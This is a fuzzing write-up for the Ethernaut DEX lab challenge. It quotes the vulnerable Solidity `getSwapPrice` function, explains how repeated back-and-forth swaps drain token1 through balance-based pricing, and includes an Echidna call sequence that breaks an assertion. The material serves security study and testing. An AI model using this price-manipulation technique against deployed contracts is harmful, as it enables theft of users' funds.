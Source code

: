 # Fuzzing Write Up

## Ethernaut DEX

### Files:
- `src/Week6-7/Fuzzing/EthernautDex1.sol`
- `test/Week6-7/EthernautDex1_Echidna.sol`
- `test/Week6-7/EthernautDex1.t.sol`

### Exploit:
The exploit involves draining all of token1 from the Dex contract by swapping back and forth between `token1` and `token2`. The exploit works because in `getSwapPrice`, the price is calculated based on the current balance of the two tokens in the Dex contract.
```
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```
Due to the proportional nature of the price calculation, each swap alters the relative prices of the two tokens. So at each round, the token swapped into the Dex contract will have a lower price for subsequent swaps by an increase in its supply Conversely, the token swapped out of the Dex contract will have a higher price for subsequent swaps by a decrease in its supply.

By repeatedly swapping back and forth the two tokens, the attacker can exchange a smaller amount of token1 for a larger amount of token2, and then exchange that larger amount of token2 for an even larger amount of token1. This process repeats until the attacker drains all of token1 from the Dex contract.

### Fuzzer Findings
```
swap(address,address,uint256,uint256): failed!💥  
  Call sequence:
    swap(0x0,0xdeadbeef,357485914,1685423552936879263257937672920722736986340916808832299517876254827585970170)
    swap(0x0,0x0,265319733387905835098571979579112452091016603635355869086970919597176504344,329074713307921204321705673193797570889340766518479129277635436207826133094)
    swap(0x0,0xdeadbeef,1188784517931260770978756393517010561477456211428802631287041595668853417358,18424319158370872478097845649635766964558683789634916327477836444775419151423)
    swap(0x0,0x0,28990067396019192753934556893037859178187241381228388274796966913946951109,1855659393170050857106478203672173958133470007470821677925984161195945249926)
    swap(0x0,0xdeadbeef,22265364589114312960701631308511197334142630208850237850803534153589571136317,7)
    swap(0x0,0x0,50646601937938527101403214713228345209889251461379965581691234127110313819,1502352892136064371487661519994723833384986834024168573490791657199906019320)
    swap(0x0,0xdeadbeef,8459676616857382267516545321318943773174550340661649404381396158787084843906,2139582986129976161128469794507302713776762004693988468443372116281260999773)
    swap(0x0,0x0,13831828604762421754256982427031343613447004518797122589073413850049417444224,21582576249303710216775979901665167326536550664924833196991023113856557293066)
    swap(0x0,0xdeadbeef,3426928688393513918969702889149146091364592431952883321603472719247500442084,69931089164243270651436451935683494175538483814099512658236052563680124616336)
    swap(0x0,0x0,1,3314387000041582849733386286188298871266194009657993527463238894520818)
    swap(0x0,0x0,2526468866181058212863161548680894810488321923703241567221914173828909948,1416627057305073125988599631020839907078416750718290956637251051792665506406)

Event sequence:
Panic(1): Using assert
Approval(2526468866181058212863161548680894810488321923703241567221914173828909948) from: 0x62d69f6867a0a084c6d313943dc22023bc263691
Approval(2526468866181058212863161548680894810488321923703241567221914173828909948) from: 0xee35211c4d9126d520bbfeaf3cfee5fe7b86f221
Transfer(50) from: 0xee35211c4d9126d520bbfeaf3cfee5fe7b86f221
```